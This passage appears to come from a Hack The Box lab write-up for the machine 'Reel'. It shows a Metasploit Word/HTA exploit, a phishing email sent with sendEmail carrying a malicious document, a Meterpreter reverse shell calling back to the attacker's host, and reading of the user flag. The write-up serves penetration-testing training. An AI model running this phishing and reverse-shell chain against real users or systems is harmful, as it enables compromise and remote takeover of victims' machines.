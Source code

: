 ```bash
[*] Started reverse TCP handler on 10.10.14.25:4444
[+] msf.doc stored at /home/kali/.msf4/local/msf.doc
[*] Using URL: http://10.10.14.25:8080/default.hta
[*] Server started.
```
{% endcode %}

The exploit gives us a URL (`http://10.10.14.25:8080/default.hta`) and a malicious document (`/home/kali/.msf4/local/msf.doc`). We are now ready to send a phishing email to `nico`.

{% code overflow="wrap" %}
```bash
$ sendEmail -f x7331@megabank.com -t nico@megabank.com -u 'RTF Convertion' -m 'Please convert this file! Thanks!' -a /home/kali/.msf4/local/msf.doc -s 10.10.10.77
Mar 22 14:49:11 cspanias sendEmail[7666]: Email was sent successfully!
```
{% endcode %}

Once the file is opened, we get a hit back to our server.

{% code overflow="wrap" %}
```bash
msf6 exploit(windows/fileformat/office_word_hta) >
[*] Started reverse TCP handler on 10.10.14.25:4444
[+] msf.doc stored at /home/kali/.msf4/local/msf.doc
[*] Using URL: http://10.10.14.25:8080/default.hta
[*] Server started.
[*] Sending stage (176198 bytes) to 10.10.10.77
[*] Meterpreter session 1 opened (10.10.14.25:4444 -> 10.10.10.77:49525) at 2024-03-22 14:49:27 +0000

msf6 exploit(windows/fileformat/office_word_hta) > sessions

Active sessions
===============

  Id  Name  Type                     Information      Connection
  --  ----  ----                     -----------      ----------
  1         meterpreter x86/windows  HTB\nico @ REEL  10.10.14.25:4444 -> 10.10.10.77:49525 (10.10.10.77)

msf6 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > getuid
Server username: HTB\nico
```
{% endcode %}

We can drop into a shell and grab the `user.txt` file.

```bash
meterpreter > shell
Process 3104 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\nico\Desktop\users.txt
374<REDACTED>a01
```


[^1]: Living Off The Land
[^2]: Elevation of Privileges
[^3]: Elevation of Privileges
[^4]: Living Off The Land
[^5]: Elevation of Privileges
[^6]: Living Off The Land